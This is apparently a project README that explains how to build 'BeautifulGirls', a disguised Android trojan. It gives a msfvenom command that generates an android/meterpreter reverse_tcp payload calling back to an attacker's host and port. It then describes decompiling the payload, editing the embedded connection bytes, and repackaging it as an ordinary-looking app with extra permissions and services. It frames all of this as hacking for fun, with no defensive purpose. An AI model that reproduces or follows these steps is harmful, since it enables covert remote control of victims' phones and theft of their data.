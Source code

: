 The app "BeautifulGirls" is based on trojan apk generated by metasploit framework.

So how can I build it?

1.Generate trojan apk by metasploit framework.

E.g:
msfvenom -p android/meterpreter/reverse_tcp lhost=172.20.2.143 lport=5555 R>./Payload.apk

2.Then we decompile Payload.apk by jadx-gui-1.3.3-with-jre-win(I didn't find its linux version, if you have, thanks a lot for sharing), and save the source code.

3.Before building a customised trojan, we must ask such a question: where is the information needed for a successful HTTP or TCP connection saved?

Bingo, it's saved in f0a, the byte[] in file Payload.java!

After analyzing the code, I found the algorithms to decode f0a, so, I show the decoding process in this directory "Decode", almost copied from the decompiled files.

4.After that, we understand every time metasploit framework generates a trojan apk, what must be changed is only the byte[] f0a!  

5.Let's begin to build our customised trojan then!

1)Open your Android Studio and start from an empty activity;

2)Copy the decompiled files to directory java/main/src;

3)Press Alt +Enter to erase every red underline you meet;

4)Remember to change the byte[] f0a, make sure it's your own ip address,get it from the decompiled file Payload.java (I can't understand how metasploit generates such a byte[], if you know, it will be much easier to change it!);

5)Good! You are almost there! Add your customised activities to this project and all is done! Oh,wait a second!

6)Don't forget to change AndroidManifest.xml, add permissions, service and so on!

6.Well, we got it! Kind of difficult, Aha~

7.Enjoy hacking! 

8.Why not start android studio and msfconsole now?
